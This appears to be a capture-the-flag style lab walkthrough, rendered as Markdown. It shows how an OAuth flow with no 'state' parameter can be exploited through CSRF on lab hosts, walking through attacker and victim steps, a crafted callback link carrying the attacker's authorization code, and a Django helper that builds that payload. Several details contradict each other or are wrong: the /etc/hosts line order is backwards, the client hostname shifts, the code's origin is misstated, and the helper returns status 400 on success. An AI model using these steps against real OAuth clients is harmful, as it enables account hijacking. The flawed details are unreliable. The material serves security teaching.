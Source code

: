 Here is your content formatted in Markdown:

```markdown
# OAuth 2.0: Exploiting Missing or Weak State Parameter

The `state` parameter in the OAuth 2.0 framework protects against CSRF attacks, which occur when an attacker tricks a user into executing unwanted actions on a web application where they are currently authenticated. In the context of OAuth, CSRF attacks can lead to unauthorized access to sensitive resources by hijacking the OAuth flow. The `state` parameter helps mitigate this risk by maintaining the integrity of the authorization process.

---

## Vulnerability of Weak or Missing State Parameter

The `state` parameter is an arbitrary string included in the authorization request by the client application. During redirection, the authorization server includes the `state` parameter in its response. The client application then verifies that the returned `state` matches the one it initially sent. This ensures that the response is a legitimate continuation of the OAuth flow and not a result of a CSRF attack.

If the `state` parameter is missing or predictable (e.g., a static value or a simple sequence), attackers can exploit this weakness to redirect the authorization code to their controlled URI. 

---

## Practical Example

### Setup
In this exercise, we will explore how the absence of the `state` parameter in the OAuth process can lead to CSRF attacks. We will use the app `mycontacts.thm:8080` to demonstrate this vulnerability.

1. **Logout Victim**: Ensure the victim is logged out of the OAuth provider by visiting:  
   `http://coffee.thm:8000/admin/logout`.

2. **Setup Hosts**: Add the following entries to `/etc/hosts`:
   ```
   mycontacts.thm 127.0.0.1
   coffee.thm 127.0.0.1
   ```

### Attacker Perspective

1. Visit the attacker-controlled site:  
   `http://mycontacts.thm:8080/csrf/index.php`  
   Use the credentials: `attacker:attacker`.

2. You will see a dashboard for syncing contacts with CoffeeShopApp. When clicking "Sync Contacts," you are redirected to an OAuth URL like:  
   ```
   http://coffee.thm:8000/o/authorize/?response_type=code&client_id=kwoy5pKgHOn0bJPNYuPdUL2du8aboMX1n9h9C0PN&redirect_uri=http%3A%2F%2Fcoffee.thm%2Fcsrf%2Fcallbackcsrf.php
   ```

3. Notice the absence of the `state` parameter, leaving the process vulnerable to CSRF.

---

## Exploiting the Vulnerability

### How It Works
Without the `state` parameter, the attacker can intercept the victim’s authorization code and use it to link the victim’s account with the attacker’s third-party account. The attacker can exploit this by obtaining the victim's authorization code and sending it to the attacker's server.

---

### Preparing the Payload

The attacker obtains their own authorization code by visiting the following link:  
`http://coffee.thm:8000/o/authorize/?response_type=code&client_id=kwoy5pKgHOn0bJPNYuPdUL2du8aboMX1n9h9C0PN&redirect_uri=http://coffee.thm:8000/oauthdemo/callbackforcsrf/`

#### Example Code:
```python
def oauth_logincsrf(request):
    app = Application.objects.get(name="ContactApp")
    redirect_uri = request.POST.get("redirect_uri", "http://coffee.thm/csrf/callbackcsrf.php") 
    
    authorization_url = (
        f"http://coffee.thm:8000/o/authorize/?client_id={app.client_id}&response_type=code&redirect_uri={redirect_uri}"
    )
    return redirect(authorization_url)

def oauth_callbackflagcsrf(request):
    code = request.GET.get("code")
    
    if not code:
        return JsonResponse({'error': 'missing_code', 'details': 'Missing code parameter.'}, status=400) 

    if code:
        return JsonResponse({'code': code, 'Payload': 'http://coffee.thm/csrf/callbackcsrf.php?code='+code}, status=400) 
```

#### Example Response:
When visiting the link, you receive a response with an authorization code and payload:  
```json
{
    "code": "xyz123",
    "Payload": "http://coffee.thm/csrf/callbackcsrf.php?code=xyz123"
}
```

---

### Launching the Attack

1. The attacker sends the victim a crafted link (via email or other means):  
   `http://bistro.thm:8080/csrf/callbackcsrf.php?code=xyz123`

2. When the victim clicks the link, the attacker’s CoffeeShopApp OAuth account becomes linked to the victim's account. This transfers all contacts from the victim's account to the attacker.

---

### Victim Perspective

To simulate this as a victim:  
1. Log in to the client app at:  
   `http://bistro.thm:8080/csrf/`  
   Use the credentials: `victim:victim`.

2. Execute the crafted link sent by the attacker (e.g., `http://bistro.thm:8080/csrf/callbackcsrf.php?code=xyz123`) in the browser.

Once executed, the victim unknowingly links their account to the attacker, transferring their contacts and sensitive information.

---

## Summary

The absence of the `state` parameter in the OAuth flow opens the door to CSRF attacks. Always include and validate the `state` parameter to maintain the integrity of the authorization process and prevent unauthorized access.
```